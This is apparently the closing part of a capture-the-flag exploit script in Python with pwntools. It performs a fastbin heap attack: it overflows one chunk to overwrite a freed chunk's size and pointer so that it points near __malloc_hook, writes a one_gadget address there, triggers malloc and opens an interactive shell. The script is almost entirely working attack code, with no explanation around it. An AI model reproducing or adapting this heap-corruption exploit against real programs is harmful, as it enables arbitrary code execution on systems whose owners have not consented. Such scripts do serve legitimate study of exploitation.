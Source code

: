 ```python

create(0x10)#3
create(0x70)#4
create(0x60)#5
free(5)
payload = 'c'*0xa0 + p64(0) + p64(0x71)
payload += p64(malloc_hook-0x23)
# write(3,len(payload),payload)
write(4,len(payload),payload)
create(0x60)#5
create(0x60)#6

payload = 'a'*(0x23-0x10)
payload += p64(onegadget)
write(6,len(payload),payload)

create(0x20)



# gdb.attach(p,"b *$rebase (0x119F)")

p.interactive()

```

